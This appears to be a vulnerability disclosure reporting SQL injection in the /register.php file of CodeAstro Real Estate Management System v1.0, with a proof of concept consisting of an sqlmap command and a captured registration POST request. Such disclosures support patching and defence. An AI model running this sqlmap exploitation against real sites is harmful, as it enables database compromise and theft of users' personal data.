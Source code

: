# SQLi vulnerability in CodeAstro Real Estate Management System v1.0 of file /register.php

**vender**:

- CodeAstro Real Estate Management System
- [CodeAstro - Home For All Free Source Codes](https://codeastro.com/)

**SoftLink**:

- https://codeastro.com/real-estate-management-system-in-php-with-source-code/

**Vulnerable File**

- /register.php

**Version**

- V1.0

### POC

```bash
sqlmap -r request.txt --level 5 --batch
```



```http
POST /register.php HTTP/1.1
Host: www.realestate.com
Origin: http://www.realestate.com
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
Referer: http://www.realestate.com/register.php
Cookie: PHPSESSID=d4bb5bt4089bi920s8gj8fb0np
Accept-Language: zh-CN,zh;q=0.9
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryI9iyogBjp2vFAQww
Content-Length: 783

------WebKitFormBoundaryI9iyogBjp2vFAQww
Content-Disposition: form-data; name="name"

test
------WebKitFormBoundaryI9iyogBjp2vFAQww
Content-Disposition: form-data; name="email"

test@test.com
------WebKitFormBoundaryI9iyogBjp2vFAQww
Content-Disposition: form-data; name="phone"

1888888888
------WebKitFormBoundaryI9iyogBjp2vFAQww
Content-Disposition: form-data; name="pass"

123456
------WebKitFormBoundaryI9iyogBjp2vFAQww
Content-Disposition: form-data; name="utype"

user
------WebKitFormBoundaryI9iyogBjp2vFAQww
Content-Disposition: form-data; name="uimage"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryI9iyogBjp2vFAQww
Content-Disposition: form-data; name="reg"

Register
------WebKitFormBoundaryI9iyogBjp2vFAQww--
```



![image-20250602120319720](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202506021203818.png)